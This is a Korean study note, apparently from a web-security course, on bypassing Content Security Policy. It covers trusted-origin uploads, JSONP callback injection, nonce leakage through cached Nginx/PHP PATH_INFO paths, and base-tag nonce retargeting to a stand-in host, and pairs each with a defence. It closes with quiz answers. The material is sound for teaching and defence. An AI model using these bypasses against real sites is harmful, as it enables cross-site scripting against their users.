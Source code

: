 # CSP 우회  
## 신뢰하는 도메인에 업로드  
CSP를 이용하면 브라우저가 **특정 출처에서만 자원을 불러오게끔 제한**함  
그러나 만약 해당 출처가 **파일 업로드 및 다운로드 기능을 제공**한다면, 공격자는 **그 출처에 스크립트를 업로드**한 뒤 **다운로드 경로로 웹 페이지에 자원을 포함**시킬 수 있음.  
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
...
<h1>검색 결과: <script src="/download_file.php?id=177742"></script></h1>
```
위의 코드처럼 **허용한 출처**에 파일을 **업로드**하고 그 파일(악성 파일일 수도...)을 **다운로드** 할 수 있다.  

### JSONP API  
만약 **허용한 출처**에 **JSONP API**를 지원하면 **callback** 파라미터에 스크립트를 삽입해서 공격 가능!!  

예시로 ***.google.com** 의 출처만 허용할 때, 구글에서 **JSONP API를 지원하는 서버**를 찾아서 **callback**을 사용할 수 있다.  
```http
https://accounts.google.com/o/oauth2/revoke?callback=alert(1);
```
위처럼 callback의 파라미터로 스크립트를 넣을 수 있다.  

그래서 이를 막기 위해 callback 파라미터에 **식별자를 제외한 문자를 거부**해서 방어할 수 있다.  
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'https://*.google.com/'">
...
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
<!-- JSONP API 결과:
// API callback
alert(1);({
  "error": {
    "code": 400,
    "message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
    "status": "INVALID_ARGUMENT"
  }
}
);
-->
```
위처럼 JSONP API의 문자 검사를 할 수 있다.  
#### JSONP란?  
**JSONP(JSON with Padding)**은 웹 애플리케이션에서 **서로 다른 도메인**(Cross-Origin) 간에 **데이터를 주고받을 때** 사용되는 기술  

## nonce 예측 가능  
CSP의 **nonce**를 이용하면 **공격자가 예측할 수 없는 nonce 값**이 태그 **속성에 존재할 것을 요구**함으로써 **XSS 공격을 방어**할 수 있습니다.  
-> 알기 힘든 nonce 값이 태그에 있어야 스크립트를 허용한다.  
nonce를 사용할 때 주의해야할 사항이 몇가지 있다.  
1. **HTTP 헤더** 또는 **meta** 태그가 **캐싱**되지 않는지 주의해야 합니다. 
2. **PHP나 CGI 계열 스크립팅**을 사용할 때에는 스크립트들이 /index.php/style.css처럼 **뒤에 추가적인 경로를 붙여 접근**될 수 있기 때문입니다.  

만약 **확장자**를 기반으로 캐시 여부를 판단하면, **css** 파일은 보통 정적 파일이므로 **캐시에 저장할 수 있음**.  
-> 이 경우는 **캐시가 만료될 때까지** **같은 nonce**를 가지기 때문에 이를 통해 nonce 값을 얻을 수 있다.  

또한 nonce 값은 안전한 의사 난수 생성기(CSPRNG)를 사용하는 것이 좋음  

```
location ~ \.php {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php7.2-fpm.sock;
}
```
위는 **Nginx와 PHP FastCGI SAPI(php-fpm)**를 사용하였을 때의 예시이다.  

```html
<script nonce="{고정된 nonce 값}">alert(1);</script>
```

```# regex to split $uri to $fastcgi_script_name and $fastcgi_path
fastcgi_split_path_info ^(.+\.php)(/.+)$;

# Check that the PHP script exists before passing it
try_files $fastcgi_script_name =404;

# Bypass the fact that try_files resets $fastcgi_path_info
# see: http://trac.nginx.org/nginx/ticket/321
set $path_info $fastcgi_path_info;
fastcgi_param PATH_INFO $path_info;

fastcgi_index index.php;
include fastcgi.conf;
```
**fastcgi-php.conf**의 내용 일부이다.  
위의 설정에서 **/dom_xss_vulnerable.php/style.css** 의 주소로 접근하면 **dom_xss_vulnerable.php 파일이 실행**되어 nonce 가 **meta http-equiv="Content-Security-Policy" content="... nonce ..."** 태그로 출력된다.  
-> 이를 통해 nonce 값을 알 수 있음  

```
location ~ \.php$ {
    try_files $uri =404;
    fastcgi_index index.php;
    include fastcgi.conf;
    fastcgi_pass unix:/run/php/php7.2-fpm.sock;
}
```
위는 php 중복 방지 예시이다.  
**PATH_INFO** 사용하지 않으면, **URL의 끝 부분이 .php일때만 FastCGI로** 넘어가게 수정해야함.  
그리고 a/b.php/c/d.php와 같이 **.php가 중복 사용**될 때를 대비하여 fastcgi-php.conf 스니펫을 사용하지 않고 위처럼 php 중복을 방지해야 한다.  

## base-url 미지정  
하이퍼링크에서 **주소 없이 경로를 지정**하면 **현재 문서를 기준**으로 주소를 해석합니다.  
**base** 태그로 경로가 해석되는 기준과 **a, form** 등의 **target** 기본 값을 지정함  

만약 
```html
<base href="https://malice.test/xss-proxy/">
```
와 같은 markup을 삽입하면, 의도한 위치가 아닌 URL로 이동할 수 있다.  

```http
Content-Security-Policy: base-uri 'none'
```
그래서 위처럼 **base** 태그의 **href** 를 사용하지 않는다면 다음과 같이 **base-uri**를 거부해서 방어할 수 있다.  

```html
<base href="https://malice.test">
<script src="/jquery.js" nonce=NONCE> 
<!-- jquery.js는 base 태그에 의해 https://malice.test/jquery.js를 가리킵니다. -->
```
**base-uri CSP 구문이 없다**면 위처럼 **base 태그**를 이용하여 임의 자원을 로드할 수 있다.  
이와 같은 공격을 **Nonce Retargeting** 라고 한다.  

# 퀴즈  
1. script nonce 와 관련하여 옳지 못한 설명은 무엇인가?  
**답** : 웹사이트에 미리 접속하여 nonce를 복사해와서 사용하면 CSP를 우회할 수 있다.  
2. 지시문이 없을 경우 'default-src'를 참조하지 않는 지시문은 무엇인가?  
**답** : base-uri  

